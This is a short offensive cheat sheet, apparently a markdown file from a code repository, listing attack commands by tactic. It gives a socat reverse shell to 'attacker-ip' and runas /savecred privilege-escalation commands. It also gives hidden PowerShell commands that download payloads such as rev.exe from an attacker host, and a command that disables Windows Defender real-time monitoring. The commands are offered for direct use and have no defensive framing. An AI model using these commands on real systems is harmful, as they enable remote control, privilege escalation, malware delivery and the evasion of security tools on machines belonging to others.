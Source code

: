 # socat
- serivce: all
- tactics: command_and_control

# reverse_shell
## attacker
- ``socat file:`tty`,raw,echo=0 tcp-listen:12345``

## target:
- `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:attacker-ip:12345"`

---

# runas
- serivce: windows
- tactics: privilege_escalation

## privileged file copy
- `runas /user:hostname\Administrator /savecred "cmd.exe /c type c:\users\administrator\desktop\root.txt > C:\Users\security\AppData\Local\Temp\root.txt"`

## privileged powershell execution
- `runas /user:hostname\Administrator /savecred "powershell -ExecutionPolicy Bypass -File C:\Users\security\AppData\Local\Temp\boom.ps1"`

## privileged cmd execution
- `runas /user:administrator /savecreds cmd.exe`

---

## powershell
- serivce: windows
- tactics: execution

### powershell upload
- `powershell Invoke-WebRequest "http://attacker-ip:81/x41.csproj" -OutFile "C:\ProgramData\x41.csproj"`
- `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -Command "(New-Object System.Net.WebClient).DownloadFile('http://attacker-ip/rev.exe', 'C:\ProgramData\')"`

### powershell disable av 
- `Set-MpPreference -DisableRealtimeMonitoring $true`

---